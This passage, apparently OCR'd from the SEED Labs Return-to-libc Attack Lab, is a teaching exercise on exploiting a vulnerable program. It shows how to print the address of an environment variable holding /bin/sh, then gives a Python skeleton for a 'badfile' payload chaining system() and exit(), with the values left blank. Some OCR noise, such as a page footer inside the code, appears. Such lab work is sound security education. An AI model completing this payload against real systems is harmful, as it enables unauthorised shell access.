    ```bash
   ./prtenv
   ```

   The output will be the memory address of the `MYSHELL` environment variable, which contains the string `/bin/sh`. For example:

   ```
   bffff7c4
   ```

   This address (`0xbffff7c4` in this example) will be used as an argument to the `system()` function in the return-to-libc attack.

After completing the above steps, you will have:
1. The environment variable `MYSHELL` set to `/bin/sh`.
2. The memory address of the `MYSHELL` environment variable printed by `prtenv`.

For example:

```
MYSHELL=/bin/sh
bffff7c4
```

This address will be used in the next task to perform the return-to-libc attack.

#### 3.3 Task 3: Launching the Attack

We are ready to create the content of badfile. Since the content involves some binary data (e.g., the
address of the libc functions), we can use Python to do the construction. We provide a skeleton of the
code in the following, with the essential parts left for you to fill out.

```py
# !/usr/bin/env python3

import sys

# Fill content with non-zero values

content = bytearray(0xaa for i in range(300))
X = 0
sh_addr = 0x00000000 # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder=’little’)
Y = 0
system_addr = 0x00000000 # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder=’little’)
Z = 0
exit_addr = 0x00000000 # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder=’little’)
SEED Labs – Return-to-libc Attack Lab 7

# Save content to a file

with open("badfile", "wb") as f:
f.write(content)
```
